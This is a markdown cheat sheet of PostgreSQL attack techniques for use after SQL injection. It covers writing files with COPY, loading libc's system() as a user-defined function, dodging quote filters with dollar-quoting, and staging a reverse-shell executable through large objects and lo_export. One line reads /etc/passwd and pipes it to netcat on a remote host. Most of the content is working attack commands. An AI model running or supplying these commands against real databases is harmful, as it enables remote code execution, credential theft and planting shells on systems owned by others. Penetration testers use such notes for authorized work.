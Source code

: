 

[PostgreSQL Cheat Cheat](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)

# Create a file on System
## Using COPY ... TO

The file content cannot have break lines. So in order to save the content correctly all break lines should be removed

**decode()** returns a byte array (bytea) not a "hex string"

```
COPY (select convert_from(decode($$my_file_content_here$$, $$base64$$),$$utf-8$$) ) TO $$c:\my_file.txt$$
```

# Creating User Defined Functions

## Check if function **foo** exits
```
SELECT 'foo'::regproc;
```

## User Defined Function (UDF)

For Windows using DLLs
```
CREATE or REPLACE function my_udf_function(text, integer) returns void as $$c:\my_dll.dll$$, $$my_dll_function_name$$ LANGUAGE C STRICT;
```

```
DROP function my_udf_function(text,integer)
```

For Linux 
```
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6′, 'system' LANGUAGE 'C' STRICT; — privSELECT system('cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user
```

Delete function
```
DROP function my_udf_function(text,integer)
```

# Avoiding Quotes

Use Tags to bypass quotes restrictions
```
"select $$test$$" 
```
Is the same as 
```
SELECT "test"
```

# Large Objects - Getting a reverse shell

Steps:
- Create a large object that holds our binary payload
- Export that object on the remote file system
- Create a Postgres User Defined Function (UDF) that uses the file we just exported from the large object as the source
- Trigger UDF and execute payload

Import large object
It's possible to manually set the large object Id (e.g 99) or will be generated.
```
SELECT lo_import($$c:\windows\win.ini$$, 99)
```

They are stored in the table PG_LARGEOBJECT - the data is splitted in 2KB chunks (pages).
If a file is 6kb it will have 3 pages (0,1,2)
```
SELECT loid, pageno FROM pg_largeobject; 

| loid | pageno | data |
------------------------
| 99   | 0      | xxx  |
| 99   | 1      | xxx  |
```


The data is bytea type. When encoding bytea only base64, hex, escape are supported
https://www.postgresql.org/docs/9.1/catalog-pg-largeobject.html
https://www.postgresql.org/docs/9.1/functions-binarystring.html

```
SELECT loid, pageno, encode(data, 'escape') FROM pg_largeobject;
```

We can save a binary into a large object (our reverse shell). For this we need to update the content of the large object. Keeping in mind that each page holds 2Kb of data
```
UPDATE pg_largeobject SET data=decode('hex_payload_here', 'hex') WHERE loid = 99 and pageno= 0
```

In case the reverse shell is bigger than 2kb we need to insert new pages for the larg object.
```
INSERT INTO pg_largeobject (loid, pageno, data) VALUES(99, 1, decode('my_payload_chunk_here', 'hex'));
```

It is possible to export a large object from the database to the file system.
We need to know which large object id, from the last example, we have created using id 99
```
SELECT lo_export(99, $$c:\rev_shell.exe$$)
```

Delete a large object bu the id
```
SELECT lo_unlink(99)
```

